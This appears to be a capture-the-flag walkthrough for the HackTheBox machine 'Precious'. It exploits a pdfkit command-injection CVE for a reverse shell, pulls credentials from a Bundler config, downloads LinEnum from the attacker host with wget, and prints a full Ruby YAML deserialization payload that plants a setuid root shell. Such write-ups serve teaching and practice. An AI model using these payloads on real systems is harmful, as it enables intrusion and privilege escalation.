










### Task 1

Nginx is running with what additional software designed to serve web applications?

Navigating to the target IP address we are being redirected to the domain ``precious.htb``. We then add it to the hosts file ``vim /etc/hosts`` and reload the page.



After reloading the page, we see that the website's usage is converting web page to pdf.



We then run ``whatweb <target_url> -v`` and find that additional to nginx web server, the software running is Phusion Passenger.



### Task 2 

Which HTTP response header reveals the underlying scripting Language of the web application?

From the same response of ``whatweb``, we see the HTTP response header that specifies the scripting language.



### Task 3 

Which Ruby library are the PDF documents generated with?

Providing a public url to be converted, we can the error Cannot load remote URL. 



Instead, we start a Python HTTP server by running ``python3 -m http.server 8080``. Then we can provide the IP address of the host machine to be converted as ``http://<host_ip>:8080`` and get a pdf file back.

Running ``exiftool`` against the pdf file we get the information we need about the Ruby library.



### Task 4

Which 2022 CVE applies to that specific version of pdfkit?

By a quick google search we can find the CVE ID 2022-25765 of the Command Injection vulnerability.

### Task 5

Which directory located in the running user's home directory is used by Bundler to store configuration files?

Using a PoC for the CVE that can be found at [text](https://github.com/shamo0/PDFkit-CMD-Injection), we start a python server again with the same command ``python3 -m http.server 8080`` and listener on port 4444 ``nc -lvnp 4444``. Then we send the curl exploit and we are connected on the target machine. 



Moving to rubycd home directory and running ``ls -a`` to list the directories, including the hidden ones, we see the .bundle file that contains the configuration files.

### Task 6

Sumbit the flag located in the henry user's home directory.

Inside the .bundle directory we open the config file and get the credentials for the user henry.



Then, we switch to the henry user by running ``su - henry`` and provide the password from before. Running ``whoami`` shows us that we are now user henry.

After navigating to the henry user's home directory and running ``cat user.txt`` we get the user flag.

### Task 7

Which command can henry run with sudo, without providing a password?

We are now gonna run the ``LinEnum.sh`` script to enumerate the host. For that purpose, we first get the script on our host machine and then open a Python server on port 8888 on the directory the script is at. Then, on the target machine we run ``wget http://<host_ip>:8888/LinEnum.sh``. Looking through the result we see that the user henry can sudo the command ``/usr/bin/ruby /opt/update_dependencies.rb``.



### Task 8 

Which is the name of the file that allows for user-controlled input to the update_dependencies.rb script?

Opening the file by `` cat /opt/update_dependencies.rb`` we see that the file used is ``dependencies.yml``.



### Task 9

Submit the flag located in root's home directory.

First, we inspect the file ``update_dependencies.rb`` and see that there is an unsafe load of the file that allows for user-controlled input.

```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

The ``YAML.load()`` deserializes YAML into Ruby objects in an insecure way that can lead to arbitary code execution. Based on this gist [text](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) we craft the following payload and we place it in the henry's home directory.

```

cat << 'EOF' > dependencies.yml
--- 
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
      io: &1 !ruby/object:Net::BufferedIO
        io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
        debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
            sets: !ruby/object:Net::WriteAdapter
              socket: !ruby/module 'Kernel'
              method_id: :system
            git_set: cp /bin/bash /tmp/dani; chmod +6777 /tmp/dani
          method_id: :resolve
EOF
``` 

We run the script as root ``sudo /usr/bin/ruby /opt/update_dependencies.rb`` that is possible without providing password and then use the command ``/tmp/dani -p`` which launches a new shell. The ``-p`` flag tells bash to preserve the effective UID, which is 0 meaning root thanks to the setuid bit of the chmod command. Finally navigating to the ``/root`` directory and ``cat root.txt`` gives us the root flag.
